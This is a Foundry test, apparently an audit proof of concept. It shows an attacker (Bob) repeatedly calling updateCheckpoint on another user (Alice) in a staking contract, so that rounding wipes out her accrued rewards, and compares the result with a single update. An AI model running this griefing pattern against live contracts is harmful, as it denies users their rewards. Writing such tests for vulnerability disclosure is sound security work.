 ```solidity

    function test_griefRewards() public {
        // Distributor deposits reward tokens
        resolvStaking.depositReward(address(rewardToken), 100_000e6, 14 days);

        // Alice and Bob deposit RESOLV tokens
        vm.prank(alice);
        resolvStaking.deposit(0.9e18, alice);
        vm.prank(bob);
        resolvStaking.deposit(99_999.1e18, bob);

        // Take state snapshot
        uint256 initialTimestamp = block.timestamp;
        uint256 snapshot = vm.snapshotState(); 

        // Bob updates Alice's checkpoint on every 2 seconds for 200 seconds
        for (uint256 i = 0; i < 100; i++) {
            skip(2 seconds);
            vm.prank(bob);
            resolvStaking.updateCheckpoint(alice);
        }

        // Alice's claimable amount is 0
        uint256 aliceClaimableAmount = resolvStaking.getUserClaimableAmounts(alice, address(rewardToken));
        assertEq(aliceClaimableAmount, 0);
        // Alice's accumulated reward per token is up to date
        uint256 aliceAccRewardPerToken = resolvStaking.getUserAccumulatedRewardPerToken(alice, address(rewardToken));
        (,,,,uint256 accRewardPerToken) = resolvStaking.rewards(address(rewardToken));
        assertEq(aliceAccRewardPerToken, accRewardPerToken);
        // Elapsed time is 200 seconds
        assertEq(block.timestamp - initialTimestamp, 200);

        // Rollback to snapshot state
        vm.revertToState(snapshot); 

        // Alice calls updateCheckpoint after 200 seconds
        skip(200 seconds);
        vm.prank(alice);
        resolvStaking.updateCheckpoint(alice);

        // Alice's claimable amount is 148
        aliceClaimableAmount = resolvStaking.getUserClaimableAmounts(alice, address(rewardToken));
        assertEq(aliceClaimableAmount, 148);
        // Alice's accumulated reward per token is up to date
        aliceAccRewardPerToken = resolvStaking.getUserAccumulatedRewardPerToken(alice, address(rewardToken));
        (,,,,accRewardPerToken) = resolvStaking.rewards(address(rewardToken));
        assertEq(aliceAccRewardPerToken, accRewardPerToken);
        // Elapsed time is 200 seconds
        assertEq(block.timestamp - initialTimestamp, 200);
    }
}
```
